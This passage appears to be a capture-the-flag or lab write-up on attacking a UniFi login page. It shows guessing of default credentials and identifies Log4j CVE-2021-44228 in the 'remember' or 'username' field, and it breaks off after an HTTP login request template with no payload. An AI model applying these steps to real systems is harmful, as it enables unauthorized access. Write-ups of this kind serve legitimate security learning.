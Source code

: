 ![unifi login page](unifi-login-page.png "unifi login page")

Well, it is just a login page. The first thing I do is try to put some simple credentials such as `admin:admin`, `admin:password`, etc. Unfortunately, I can't get access to it but this page also has the version displayed in front of it.

With quick googling, I have found this. [sprocketsecurity - another log4j on the fire unifi](https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi). Turns out this version, is on fire with the new vulnerability from the java logging library, Log4j - [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

## exploit

In the article, it says:
The vulnerability is in the `remember` (or in some versions the `username`) value issued in the login request. shown below:

```http
POST /api/login HTTP/2
Host: <TARGET> 
Content-Length: 109
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="96"
Sec-Ch-Ua-Mobile: ?0
User-Agent: User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Content-Type: application/json; charset=utf-8
Accept: */*
Origin: https://<TARGET>
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://<TARGET>/manage/account/login?redirect=%2Fmanage
```